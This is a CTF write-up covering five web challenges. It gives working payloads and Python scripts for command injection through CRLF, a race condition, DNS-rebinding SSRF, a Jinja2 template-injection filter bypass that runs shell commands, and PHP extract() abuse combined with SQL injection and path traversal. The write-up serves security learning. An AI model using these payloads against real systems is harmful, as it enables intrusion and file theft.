




# Traveler
## Solution
Command injection: 



We can bypass with ``%26`` (aka ``&``) or with ``%0d%0a``(aka CRLF) work as well :

``payload``: ``Single%0d%0als%20-lsa`` 



Read flag: ``Single%0d%0acat%20/flag.txt``



# Quiz
## Solution 
This chall is all about race condition when submitting answers

Reference: [here](https://bizflycloud.vn/tin-tuc/race-condition-la-gi-lam-sao-de-khai-thac-20180116193609705.htm)

So the solution here is to create multi thread and send the request at the same time

```
#!python3
import requests
import threading
from multiprocessing.dummy import Pool as ThreadPool
cookies={
    'INGRESSCOOKIE':'1647154420.414.13402.417373|df18c7a37b01201195c3bf2ff6aa23c8',
    'connect.sid':"s%3AI0J6D-OLWqntaWNpYGx_lQsEcNBtDW1m.WiioLQU6iuskoVWIDBjbDHaXIyuDLpIg%2FpakO5eIWYM"
}
json_data = {"questionNumber":2,"answer":"10"}

def runner(d):
	r1 = requests.post('https://quiz.ctf.intigriti.io/submitAnswer', cookies=cookies,json=json_data)
	r2 = requests.get('https://quiz.ctf.intigriti.io/user', cookies=cookies)


## Solution 1: Use multiprocessing.dummy

# pool = ThreadPool(40)
# result = pool.map_async(runner,range(40))
# r2 = requests.get('https://quiz.ctf.intigriti.io/buyFlag', cookies=cookies)
# print(r2.text)

## Solution 2: Use threading
threads=[]
for i in range(50):
    t=threading.Thread(target=runner,args=[i])
    t.start()
    threads.append(t)
for thread in threads:
    thread.join()
print(threads)
r2 = requests.get('https://quiz.ctf.intigriti.io/buyFlag', cookies=cookies)
print(r2.text)


#Congratulations! Here is your flag: 1337UP{this_is_a_secret_flag}
```

# Dead Tube
## Solution
DNS Rebinding:

Use [this](https://lock.cmpxchg8b.com/rebinder.html) to gererate host name for dns rebinding between 127.0.0.1 and ``https://deadtube.ctf.intigriti.io/`` (aka ``35.205.87.74``)

hostname: ``7f000001.23cd574a.rbndr.us``

```
#!python3

import requests

data={
    'link':'http://7f000001.23cd574a.rbndr.us:8080/flag'
}
url='https://deadtube.ctf.intigriti.io/preview'
header={
    'Content-Type': 'application/x-www-form-urlencoded'
}
for i in range(1000):
    r=requests.post(url,headers=header,data=data)
    if "1337" in r.text:
        print(r.text)
        break
```

flag: 1337UP{SSRF_AINT_GOT_NOTHING_ON_M3}

# 1 truth, 2 lies
## Solution

sourcecode: [here](./src/app.py)

SSTI: in order to bypass``{'.', '_', '|join', '[', ']', 'mro', 'base'}``, this payload'll work:

``{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat *')|attr('read')()}}"
``

Reference: [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---filter-bypass)

script:

```
#!python3

import requests

url="https://1truth2lies.ctf.intigriti.io/"

path="""
 ▄█    ▄▄▄▄███▄▄▄▄         ▄█    █▄  ███    █▄   ▄█       ███▄▄▄▄      ▄████████    ▄████████    ▄████████ ▀█████████▄   ▄█          ▄████████ 
███  ▄██▀▀▀███▀▀▀██▄      ███    ███ ███    ███ ███       ███▀▀▀██▄   ███    ███   ███    ███   ███    ███   ███    ███ ███         ███    ███ 
███▌ ███   ███   ███      ███    ███ ███    ███ ███       ███   ███   ███    █▀    ███    ███   ███    ███   ███    ███ ███         ███    █▀  
███▌ ███   ███   ███      ███    ███ ███    ███ ███       ███   ███  ▄███▄▄▄      ▄███▄▄▄▄██▀   ███    ███  ▄███▄▄▄██▀  ███        ▄███▄▄▄     
███▌ ███   ███   ███      ███    ███ ███    ███ ███       ███   ███ ▀▀███▀▀▀     ▀▀███▀▀▀▀▀   ▀███████████ ▀▀███▀▀▀██▄  ███       ▀▀███▀▀▀     
███  ███   ███   ███      ███    ███ ███    ███ ███       ███   ███   ███    █▄  ▀███████████   ███    ███   ███    ██▄ ███         ███    █▄  
███  ███   ███   ███      ███    ███ ███    ███ ███▌    ▄ ███   ███   ███    ███   ███    ███   ███    ███   ███    ███ ███▌    ▄   ███    ███ 
█▀    ▀█   ███   █▀        ▀██████▀  ████████▀  █████▄▄██  ▀█   █▀    ██████████   ███    ███   ███    █▀  ▄█████████▀  █████▄▄██   ██████████ 
                                                ▀                                  ███    ███                           ▀"""

payload=r"{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat *')|attr('read')()}}"

header={
    'Content-Type': 'application/x-www-form-urlencoded'
}
r=requests.get(url+path+'?input='+payload)
print(r.text)
```

``flag:flag{1ea5n_h0w_vu1n_h1ppen_and_wh1t_l1ne_m1ke_vu1n!!!}``

# PHorrifyingP
## solution
Source code:
```
<?php
/*
    <flag> ➡➡➡ ⛳🏁 ⬅⬅⬅ <flag>
*/
if ($_SERVER['REQUEST_METHOD'] == 'POST'){
    extract($_POST);

    if (isset($_POST['password']) && md5($_POST['password']) == 'put hash here!'){
        $loggedin = true;
    }

    if (md5($_SERVER['REMOTE_ADDR']) != '92d3fd4057d07f38474331ab231e1f0d'){
        header('Location: ' . $_SERVER['REQUEST_URI']);
    }

    if (isset($loggedin) && $loggedin){
        echo 'One step closer 😎<br>';

        if (isset($_GET['action']) && md5($_GET['action']) == $_GET['action']){
            echo 'Really? 😅<br>';

            $db = new SQLite3('database.db');
            $sql_where = Array('1=0');

            foreach ($_POST as $key => $data) {
                $sql_where[] = $db->escapeString($key) . "='" . $db->escapeString($data) . "'";
            }

            $result = $db->querySingle('SELECT login FROM users WHERE ' . implode(' AND ', $sql_where));

            if ($result == 'admin'){
                echo 'Last step 🤣<br>';

                readfile(file_get_contents('php://input'));
            }
        }
    }
}
?>

```

Exploit:

PHP has a function named extract() to take all provided GET and POST requests and assign them to internal variables. Developers will, at times, use this function instead of manually assigning $_POST[var1] to $var1. This function will overwrite any previously defined variables, including server variables. Extract() has options which prevent overwriting previously-defined variables, however this safety is not enabled by default, and developers might not enable the safety, just as many do not perform input validation. This vulnerability is similar in design to the register globals vulnerabilities present in PHP.

Reference: [here](https://davidnoren.com/post/php-extract-vulnerability/)

Payload:

```
1%09OR%09login=admin&1--%20-=&loggedin=true&sth=../../../../../../../../../../../var/www/html/index.php
```

Explain: 
This payload'll make the query looks like this:

```
SELECT login FROM users WHERE 1=0 AND 1 or  login=admin AND 1-- -comment...
```

And because of the ``extract()`` function, we can set ``loggedin=True`` and the path to attack path traversal.

Oh i almost forgot about the param``$_GET['action']``, we can just simply bypass that with magic hash.



flag: ``1337UP{PHP_SCARES_ME_IT_HAUNTS_ME_WHEN_I_SLEEP_ALL_I_CAN_SEE_IS_PHP_PLEASE_SOMEONE_HELP_ME}``

